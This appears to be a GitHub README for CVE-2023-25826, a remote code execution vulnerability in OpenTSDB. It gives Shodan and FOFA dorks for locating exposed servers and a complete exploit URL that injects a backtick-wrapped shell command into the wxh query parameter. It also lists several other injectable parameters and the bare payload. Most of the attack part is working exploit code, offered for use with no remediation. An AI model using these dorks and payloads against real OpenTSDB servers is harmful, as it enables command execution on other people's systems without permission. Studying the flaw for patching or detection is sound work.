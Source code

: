 # CVE-2023-25826
![](https://img.shields.io/static/v1?label=Product&message=OpenTSDB&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20Current%20Versions&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
http.favicon.hash:407286339
```
- FOFA dork:
```
icon_hash="407286339"
```

### Usage
```
The paramenter wxh needs some sanitation before being used by opentsdb.

See example url:

http://target_url:4242/q?start=2016/04/13-10:21:00&ignore=2&m=sum:jmxdata.cpu&o=&yrange=[0:]&key=out%20right%20top&wxh=1900x770%60id%60&style=linespoint&png

Results in RCE unfortunately

More parameters:

    wxh
    start
    m
    o
    key
    style
```
Payload:
```
%60id%60
```